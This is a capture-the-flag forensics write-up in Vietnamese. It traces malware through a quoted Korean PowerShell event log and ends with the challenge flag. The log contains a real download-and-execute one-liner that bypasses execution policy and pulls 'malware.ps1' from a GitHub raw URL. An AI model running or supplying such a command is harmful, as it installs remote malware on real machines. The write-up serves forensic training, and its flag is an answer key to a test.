



# Write Up

---

## Phần A

Anh em sẽ vào tìm Log của PowerShell vì đa phần malware sẽ được tải và chạy từ đó



```text
# Log
오류 메시지 = 지정된 파일을 찾을 수 없습니다 오류로 인해 이 명령을 실행할 수 없습니다.
정규화된 오류 ID = InvalidOperationException,Microsoft.PowerShell.Commands.StartProcessCommand


Context:
        심각도 = Warning
        호스트 이름 = ConsoleHost
        호스트 버전 = 5.1.19041.3930
        호스트 ID = a7a589b2-acc6-427b-95be-1169b23ea4a6
        호스트 응용 프로그램 = powershell.exe -exec bypass -C IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/esby97/powershell_malware/master/malware.ps1');
        엔진 버전 = 5.1.19041.3930
        Runspace ID = 95c43522-5fce-4e3b-bdc6-ab1f10033ad6
        파이프라인 ID = 1
        명령 이름 = Start-Process
        명령 유형 = Cmdlet
        스크립트 이름 = 
        명령 경로 = 
        시퀀스 번호 = 17
        사용자 = DESKTOP-JIC1U1P\victim
        연결된 사용자 = 
        셸 ID = Microsoft.PowerShell


User Data:
```

Có thể thấy nó tải 1 file là `malware.ps1` về



Tìm đường dẫn trên mạng ta có thể thấy nó tải về và lưu dưới dạng file `merong.exe`

> A: merong

---

## Phần B

Cái ảnh trên cũng bao gồm phần B luôn rồi, nó chính là file `ani.jpg`

> B: ani

---

## Phần C



> C: 1712417205

---

## Flag

Flag: DH{merong_ani_1712417205}